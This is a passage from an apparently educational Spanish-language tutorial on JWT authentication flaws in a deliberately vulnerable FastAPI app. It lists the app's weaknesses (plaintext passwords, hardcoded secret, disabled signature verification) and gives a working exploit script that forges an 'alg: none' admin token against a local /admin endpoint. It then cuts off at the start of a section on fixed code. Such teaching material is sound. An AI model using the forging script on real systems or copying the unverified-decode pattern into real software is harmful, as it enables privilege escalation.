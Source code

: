 **Ejecutar**:

```bash
pip install fastapi uvicorn pyjwt
uvicorn vulnerable_auth:app --reload --port 8000
```

**Por qué es vulnerable (resumen)**:

* `USERS` almacena contraseñas en texto plano.
* `JWT_SECRET` embebido en código.
* `jwt.decode(..., options={"verify_signature": False})` : desactiva verificación de firma; permite tokens forjados (por ejemplo, cambiar `role` a `admin`).
* No hay `exp`, `iss`, `aud`, ni revocación.

---

# C — Script de explotación

Este script muestra cómo **forjar** un token (o modificar header `alg: none`) y acceder al endpoint vulnerable.

Guarda como `exploit_forge.py`:

```python
import requests
import jwt

header = {"alg": "none", "typ": "JWT"}
payload = {"sub": "attacker@example.com", "role": "admin"}
unsigned_token = jwt.encode(payload, key=None, algorithm=None, headers=header)

print("Token forjado (alg none):", unsigned_token)

resp = requests.get("http://127.0.0.1:8000/admin", headers={"Authorization": f"Bearer {unsigned_token}"})
print("Status:", resp.status_code)
print("Body:", resp.text)
```

Ejecuta:

```bash
pip install requests pyjwt
python exploit_forge.py
```

En el servidor vulnerable verás acceso permitido (status 200) — **demostración del impacto**.

---

# D — Código corregido y buenas prácticas (FastAPI)

Principios aplicados:
